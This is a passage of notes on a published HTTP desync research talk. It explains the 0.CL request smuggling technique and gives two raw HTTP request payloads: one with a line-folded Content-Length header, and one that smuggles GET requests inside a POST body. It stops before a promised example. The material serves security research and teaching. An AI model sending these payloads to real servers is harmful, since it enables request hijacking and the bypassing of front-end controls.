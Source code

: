 ![](attachments/James%20Kettle%20-%20HTTP1.1%20must%20die%20the%20desync%20endgame-9.png)

The cleanest way to achieve this would be **to have the 0.CL cut the entire header block off the first request**:

```http
POST /nul HTTP/1.1
Content-length:
 163
```

```http
POST / HTTP/1.1
Content-Length: 111

GET / HTTP/1.1
Host: <redacted>

GET /wrtz HTTP/1.1
Foo: bar
```

This is not as easy as it looks. You need to know the exact size of the second request header block, and virtually all front-end servers append extra headers. 

Most servers **insert headers at the end of the header block**, not at the start. So, if our smuggled request starts before that, the attack will work reliably! Here's an example that uses an input reflection to reveal the inserted header:
